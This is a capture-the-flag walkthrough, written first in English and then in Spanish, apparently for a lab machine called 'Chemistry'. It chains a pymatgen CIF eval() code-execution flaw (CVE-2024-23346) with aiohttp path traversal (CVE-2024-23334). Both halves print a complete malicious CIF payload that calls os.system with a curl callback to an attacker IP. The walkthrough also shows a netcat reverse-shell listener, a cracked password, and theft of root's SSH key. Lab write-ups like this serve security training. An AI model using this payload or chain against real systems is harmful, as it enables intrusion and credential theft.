





Exploitation Summary
Exploitation process: The target machine was running a Flask web application on port 5000 that allowed users to upload and parse CIF (Crystallographic Information File) files for chemistry data visualization. The application used the vulnerable pymatgen library version that contains CVE-2024-23346, which allows arbitrary Python code execution through maliciously crafted CIF files.
By uploading a specially crafted CIF file containing a Python payload within the _space_group_magn.transform_BNS_Pp_abc field, I exploited the unsafe use of eval() in the pymatgen library to achieve remote code execution as the app user. After gaining initial access, I found database credentials and escalated to the rosa user.
For privilege escalation, I discovered an internal monitoring service running on port 8080 using aiohttp version 3.9.1, which is vulnerable to CVE-2024-23334 (path traversal/LFI). Using local port forwarding, I exploited this vulnerability to read arbitrary files from the system, including /root/.ssh/id_rsa, which allowed me to SSH as root and complete the machine.
Technologies/Exploits: Python pymatgen library RCE (CVE-2024-23346), unsafe eval() exploitation, SQLite credential extraction, aiohttp path traversal (CVE-2024-23334), SSH key theft for privilege escalation.
Initial Reconnaissance
I begin with an nmap scan to identify open ports and running services on the target machine:

The scan reveals two main services: SSH on port 22 and an HTTP service on port 5000. The web service appears to be running a Python Flask application.
Web Application Enumeration
I perform directory enumeration on the web application running on port 5000 and discover several interesting endpoints:
/login - User authentication page (Status: 200)/register - User registration page (Status: 200)/upload - File upload endpoint (Status: 405 when accessed directly)/logout - Logout functionality (redirects to login)/dashboard - Main dashboard (requires authentication)
After registering a new account and logging in, I gain access to the dashboard where I discover a file upload functionality specifically designed for CIF (Crystallographic Information File) files, which are used to store chemistry data:

Understanding the CIF Upload Functionality
The application accepts .cif files and processes them to visualize molecular structures. When a file is uploaded, the application assigns it a UUID and redirects to a URL like:
http://10.10.11.38:5000/structure/21f5c7ab-ebbd-4cae-a31e-02dbeafc4574
This suggests the application is parsing and rendering CIF files server-side, which could potentially be vulnerable to code injection if the parsing library has security flaws.
Vulnerability Research - Pymatgen RCE
Searching for "cif file vulnerability" leads me to discover a critical security advisory: GHSA-5h86-8mv2-jq9f. This advisory details a remote code execution vulnerability in the pymatgen Python library, which is commonly used for parsing CIF files.
Understanding the Vulnerability
The vulnerability exists because pymatgen uses Python's eval() function to process certain fields in CIF files without proper sanitization. An attacker can craft a malicious CIF file with Python code embedded in specific fields, which will be executed when the file is parsed.
While I don't have confirmation that the application uses this specific library, given that it's a Python server parsing CIF files, there's a high probability it's using pymatgen or a similar vulnerable library.
Initial Access - Exploiting CIF File Upload
I create a malicious CIF file with a Python payload designed to achieve remote code execution. The payload is embedded in the _space_group_magn.transform_BNS_Pp_abc field:
data_5yOhtAoR
_audit_creation_date 2018-06-08
_audit_creation_method "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("curl 10.10.14.18:8000");0,0,0'
_space_group_magn.number_BNS 62.448
_space_group_magn.name_BNS "P n' m a' "
This payload uses Python's introspection capabilities to access the os module and execute system commands. The exploit chain works as follows:
- Access the base object class through
().__class__.__mro__[1]
- Use
__getattribute__ to access __subclasses__()
- Find the
BuiltinImporter class
- Use it to load the
os module
- Execute arbitrary system commands via
os.system()
Testing for Code Execution
First, I test the vulnerability with a simple HTTP callback to confirm code execution. I set up a Python HTTP server:
python3 -m http.server
I upload the malicious CIF file and navigate to the structure URL. The server receives the connection, confirming remote code execution:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.38 - - "GET / HTTP/1.1" 200 -
Achieving Reverse Shell
Now that I've confirmed RCE, I modify the payload to execute a reverse shell command. I set up a netcat listener:
nc -lvnp 443
I upload a new CIF file with a reverse shell payload and successfully gain access to the system as the app user.
Lateral Movement - Database Credential Discovery
After gaining initial access as app, I enumerate the system and discover two user accounts in /home:
app - The current userrosa - Another user account
Exploring the web application directory, I find an instance folder containing a SQLite database file. I examine the database and extract credential hashes for three users: admin, app, and rosa.
Using an online hash cracking service like CrackStation, I successfully crack the password hash for the rosa user:
rosa:unicorniosrosados
I use su to switch to the rosa user and retrieve the user flag:
rosa@chemistry:~$ cat user.txt
Privilege Escalation - Internal Service Discovery
As the rosa user, I enumerate the system for privilege escalation vectors. Using ss -tuln, I discover that port 8080 is listening locally but not exposed externally.
Additionally, I notice a directory in /opt called monitoring_site that is owned by root, suggesting it might be related to the service running on port 8080.
Port Forwarding and Service Enumeration
To access the internal service, I use SSH local port forwarding with the rosa credentials:
ssh -L 8080:localhost:8080 rosa@10.10.11.38
I can now access the service through my local machine at localhost:8080. The service appears to be a monitoring dashboard:

I use whatweb to identify the technology stack:
whatweb localhost:8080
http://localhost:8080 [200 OK] HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], IP[::1], JQuery[3.6.0], Script, Title[Site Monitoring]
The service is running aiohttp version 3.9.1, which immediately stands out as potentially vulnerable.
Exploiting aiohttp Path Traversal - CVE-2024-23334
I search for known vulnerabilities in aiohttp version 3.9.1 and discover CVE-2024-23334: https://www.cvedetails.com/cve/CVE-2024-23334/
This is a path traversal vulnerability that allows reading arbitrary files from the server through the static file serving functionality. The vulnerability exists because aiohttp doesn't properly validate file paths when serving static content.
Finding a Working Exploit
I test several proof-of-concept exploits, adjusting for the correct static directory name (assets instead of static). After some trial and error, I find a working exploit: https://github.com/Arc4he/CVE-2024-23334-PoC/blob/main/exploit.py
Reading Sensitive Files
While I could read the root flag directly using this vulnerability, the goal is to gain a proper root shell. I first attempt to read /etc/shadow to crack the root password, but the SHA-256 hash proves too difficult to crack in a reasonable time.
Instead, I target the SSH private key for the root user by reading /root/.ssh/id_rsa:

The exploit successfully retrieves the root SSH private key!
SSH Access as Root
I save the private key to a file, format it correctly (ensuring proper line breaks), and set the appropriate permissions:
chmod 600 id_rsa
Finally, I use the stolen private key to SSH into the machine as root:
ssh -i id_rsa root@10.10.11.38

I now have full root access to the system and can retrieve the root flag, completing the machine.
Resumen de Explotación
Resumen del proceso: La máquina objetivo ejecutaba una aplicación web Flask en el puerto 5000 que permitía a los usuarios subir y parsear archivos CIF (Crystallographic Information File) para visualización de datos químicos. La aplicación utilizaba la versión vulnerable de la librería pymatgen que contiene CVE-2024-23346, la cual permite la ejecución de código Python arbitrario a través de archivos CIF maliciosamente diseñados.
Subiendo un archivo CIF especialmente diseñado que contenía un payload de Python dentro del campo _space_group_magn.transform_BNS_Pp_abc, exploté el uso inseguro de eval() en la librería pymatgen para conseguir ejecución remota de código como el usuario app. Tras obtener el acceso inicial, encontré credenciales de base de datos y escalé al usuario rosa.
Para la escalada de privilegios, descubrí un servicio de monitorización interno ejecutándose en el puerto 8080 usando aiohttp versión 3.9.1, que es vulnerable a CVE-2024-23334 (path traversal/LFI). Utilizando reenvío de puertos local, exploté esta vulnerabilidad para leer archivos arbitrarios del sistema, incluyendo /root/.ssh/id_rsa, lo que me permitió conectarme por SSH como root y completar la máquina.
Tecnologías/Exploits: RCE en librería Python pymatgen (CVE-2024-23346), explotación de eval() inseguro, extracción de credenciales de SQLite, path traversal en aiohttp (CVE-2024-23334), robo de clave SSH para escalada de privilegios.
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar puertos abiertos y servicios en ejecución en la máquina objetivo:
El escaneo revela dos servicios principales: SSH en el puerto 22 y un servicio HTTP en el puerto 5000. El servicio web parece estar ejecutando una aplicación Flask de Python.
Enumeración de la Aplicación Web
Realizo enumeración de directorios en la aplicación web que corre en el puerto 5000 y descubro varios endpoints interesantes:
/login - Página de autenticación de usuario (Status: 200)/register - Página de registro de usuario (Status: 200)/upload - Endpoint de subida de archivos (Status: 405 cuando se accede directamente)/logout - Funcionalidad de cierre de sesión (redirige al login)/dashboard - Panel principal (requiere autenticación)
Después de registrar una nueva cuenta e iniciar sesión, obtengo acceso al dashboard donde descubro una funcionalidad de subida de archivos diseñada específicamente para archivos CIF (Crystallographic Information File), que se usan para almacenar datos de química:
Entendiendo la Funcionalidad de Subida de CIF
La aplicación acepta archivos .cif y los procesa para visualizar estructuras moleculares. Cuando se sube un archivo, la aplicación le asigna un UUID y redirige a una URL como:
http://10.10.11.38:5000/structure/21f5c7ab-ebbd-4cae-a31e-02dbeafc4574
Esto sugiere que la aplicación está parseando y renderizando archivos CIF del lado del servidor, lo que podría ser potencialmente vulnerable a inyección de código si la librería de parseo tiene fallos de seguridad.
Investigación de Vulnerabilidades - RCE en Pymatgen
Buscando "cif file vulnerability" me lleva a descubrir un advisory de seguridad crítico: GHSA-5h86-8mv2-jq9f. Este advisory detalla una vulnerabilidad de ejecución remota de código en la librería Python pymatgen, que se usa comúnmente para parsear archivos CIF.
Entendiendo la Vulnerabilidad
La vulnerabilidad existe porque pymatgen utiliza la función eval() de Python para procesar ciertos campos en archivos CIF sin la sanitización adecuada. Un atacante puede diseñar un archivo CIF malicioso con código Python embebido en campos específicos, que será ejecutado cuando el archivo sea parseado.
Aunque no tengo confirmación de que la aplicación use esta librería específica, dado que es un servidor Python parseando archivos CIF, hay una alta probabilidad de que esté usando pymatgen o una librería vulnerable similar.
Acceso Inicial - Explotando la Subida de Archivos CIF
Creo un archivo CIF malicioso con un payload de Python diseñado para conseguir ejecución remota de código. El payload está embebido en el campo _space_group_magn.transform_BNS_Pp_abc:
data_5yOhtAoR
_audit_creation_date 2018-06-08
_audit_creation_method "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("curl 10.10.14.18:8000");0,0,0'
_space_group_magn.number_BNS 62.448
_space_group_magn.name_BNS "P n' m a' "
Este payload usa las capacidades de introspección de Python para acceder al módulo os y ejecutar comandos del sistema. La cadena de explotación funciona así:
- Acceder a la clase base de objetos a través de
().__class__.__mro__[1]
- Usar
__getattribute__ para acceder a __subclasses__()
- Encontrar la clase
BuiltinImporter
- Usarla para cargar el módulo
os
- Ejecutar comandos arbitrarios del sistema mediante
os.system()
Probando la Ejecución de Código
Primero, pruebo la vulnerabilidad con un simple callback HTTP para confirmar la ejecución de código. Configuro un servidor HTTP de Python:
python3 -m http.server
Subo el archivo CIF malicioso y navego a la URL de la estructura. El servidor recibe la conexión, confirmando la ejecución remota de código:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.38 - - "GET / HTTP/1.1" 200 -
Consiguiendo una Reverse Shell
Ahora que he confirmado el RCE, modifico el payload para ejecutar un comando de reverse shell. Configuro un listener de netcat:
nc -lvnp 443
Subo un nuevo archivo CIF con un payload de reverse shell y consigo acceso al sistema como el usuario app.
Movimiento Lateral - Descubrimiento de Credenciales en Base de Datos
Después de obtener el acceso inicial como app, enumero el sistema y descubro dos cuentas de usuario en /home:
app - El usuario actualrosa - Otra cuenta de usuario
Explorando el directorio de la aplicación web, encuentro una carpeta instance que contiene un archivo de base de datos SQLite. Examino la base de datos y extraigo hashes de credenciales para tres usuarios: admin, app y rosa.
Usando un servicio de crackeo de hashes online como CrackStation, consigo crackear con éxito el hash de contraseña del usuario rosa:
rosa:unicorniosrosados
Uso su para cambiar al usuario rosa y recupero la flag de usuario:
rosa@chemistry:~$ cat user.txt
Escalada de Privilegios - Descubrimiento de Servicio Interno
Como usuario rosa, enumero el sistema en busca de vectores de escalada de privilegios. Usando ss -tuln, descubro que el puerto 8080 está escuchando localmente pero no está expuesto externamente.
Además, noto un directorio en /opt llamado monitoring_site que pertenece a root, sugiriendo que podría estar relacionado con el servicio ejecutándose en el puerto 8080.
Reenvío de Puertos y Enumeración del Servicio
Para acceder al servicio interno, uso reenvío de puertos local de SSH con las credenciales de rosa:
ssh -L 8080:localhost:8080 rosa@10.10.11.38
Ahora puedo acceder al servicio a través de mi máquina local en localhost:8080. El servicio parece ser un panel de monitorización:
Uso whatweb para identificar el stack tecnológico:
whatweb localhost:8080
http://localhost:8080 [200 OK] HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], IP[::1], JQuery[3.6.0], Script, Title[Site Monitoring]
El servicio está ejecutando aiohttp versión 3.9.1, lo cual inmediatamente destaca como potencialmente vulnerable.
Explotando Path Traversal en aiohttp - CVE-2024-23334
Busco vulnerabilidades conocidas en aiohttp versión 3.9.1 y descubro CVE-2024-23334: https://www.cvedetails.com/cve/CVE-2024-23334/
Esta es una vulnerabilidad de path traversal que permite leer archivos arbitrarios del servidor a través de la funcionalidad de servir archivos estáticos. La vulnerabilidad existe porque aiohttp no valida adecuadamente las rutas de archivos al servir contenido estático.
Encontrando un Exploit Funcional
Pruebo varios exploits de prueba de concepto, ajustándolos para el nombre correcto del directorio estático (assets en lugar de static). Después de algo de prueba y error, encuentro un exploit funcional: https://github.com/Arc4he/CVE-2024-23334-PoC/blob/main/exploit.py
Leyendo Archivos Sensibles
Aunque podría leer la flag de root directamente usando esta vulnerabilidad, el objetivo es obtener una shell de root adecuada. Primero intento leer /etc/shadow para crackear la contraseña de root, pero el hash SHA-256 resulta demasiado difícil de crackear en un tiempo razonable.
En su lugar, apunto a la clave SSH privada del usuario root leyendo /root/.ssh/id_rsa:
¡El exploit recupera con éxito la clave privada SSH de root!
Acceso SSH como Root
Guardo la clave privada en un archivo, la formato correctamente (asegurándome de los saltos de línea apropiados), y establezco los permisos adecuados:
chmod 600 id_rsa
Finalmente, uso la clave privada robada para conectarme por SSH a la máquina como root:
ssh -i id_rsa root@10.10.11.38
Ahora tengo acceso root completo al sistema y puedo recuperar la flag de root, completando la máquina.